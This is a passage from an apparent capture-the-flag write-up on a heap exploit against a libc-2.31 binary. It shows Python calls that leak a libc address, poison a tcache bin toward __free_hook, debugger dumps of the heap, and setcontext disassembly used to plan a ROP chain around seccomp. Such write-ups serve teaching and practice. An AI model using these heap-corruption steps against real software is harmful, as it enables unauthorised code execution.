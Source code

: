 ```  
```

We can get the libc address (`0x00007ffff7f8bc40`) by executing the following.  
```python  
Alloc(0xe0, "\n")  
Alloc(0xe0, "A"*15+"\n")  
View()  
```  
```  
0x55555555aed0: 0x0000000000000000      0x0000000000000000  
0x55555555aee0: 0x0000000000000000      0x00000000000000f1  
0x55555555aef0: 0x4141414141414141      0x0a41414141414141  
0x55555555af00: 0x00007ffff7f8bc40      0x000055555555ad50  
               ~~~~~~~~~~~~~~~~~~  
0x55555555af10: 0xffffffffffffffff      0xffffffffffffffff  
0x55555555af20: 0x0000000100000000      0x0000000000000000  
0x55555555af30: 0x0000000093507296      0x0000000000000000  
0x55555555af40: 0x0000000000000000      0x0000000000000000  
0x55555555af50: 0x0000000000000000      0x0000000000000000  
0x55555555af60: 0x0000000000000070      0x0000000000000080  
0x55555555af70: 0x000055555555b220      0x0000555555559010  
0x55555555af80: 0x0000000000000003      0x0000000000000000  
```

We can write the data of (`free_hook-0x10`) to the 0x80 size `tcachebins` by
executing the following.  
```python  
Free()  
Alloc(0xe0, b"A"*0x78+p64(0x81)+p64(free_hook-0x10))  
```  
The state where the address of `__free_hook` is written to `tcachebins` is as
follows.  
```  
pwndbg> bins  
tcachebins  
0x20 [  6]: 0x55555555b2a0 —▸ 0x55555555a770 —▸ 0x55555555ae50 —▸
0x55555555acb0 —▸ 0x55555555ab10 —▸ 0x55555555a6e0 ◂— 0x0  
0x70 [  3]: 0x55555555b030 —▸ 0x55555555b1b0 —▸ 0x55555555a700 ◂— 0x0  
0x80 [  7]: 0x55555555a910 —▸ 0x55555555aa90 —▸ 0x55555555ac30 —▸
0x55555555add0 —▸ 0x55555555af70 —▸ 0x7ffff7f8de38 (__attr_list_lock) ◂— 0x0  
0xd0 [  5]: 0x55555555a190 —▸ 0x555555559e60 —▸ 0x555555559b30 —▸
0x555555559800 —▸ 0x555555559370 ◂— 0x0  
```

The `system` function cannot be used because the system call is restricted by
`seccomp`. Therefore, it needs to be ROP, but since the register used by the
`setcontext` function has been changed to `rdx` in libc-2.31.so, the
`setcontext` function cannot be used directly.

The following is an excerpt from the `setcontext` function.  
```  
  0x00007ffff7df3f8d <+61>:     mov    rsp,QWORD PTR [rdx+0xa0]  
  0x00007ffff7df3f94 <+68>:     mov    rbx,QWORD PTR [rdx+0x80]  
  0x00007ffff7df3f9b <+75>:     mov    rbp,QWORD PTR [rdx+0x78]  
  0x00007ffff7df3f9f <+79>:     mov    r12,QWORD PTR [rdx+0x48]  
  0x00007ffff7df3fa3 <+83>:     mov    r13,QWORD PTR [rdx+0x50]  
  0x00007ffff7df3fa7 <+87>:     mov    r14,QWORD PTR [rdx+0x58]  
  0x00007ffff7df3fab <+91>:     mov    r15,QWORD PTR [rdx+0x60]  
  0x00007ffff7df3faf <+95>:     test   DWORD PTR fs:0x48,0x2  
  0x00007ffff7df3fbb <+107>:    je     0x7ffff7df4076 <setcontext+294>  
```
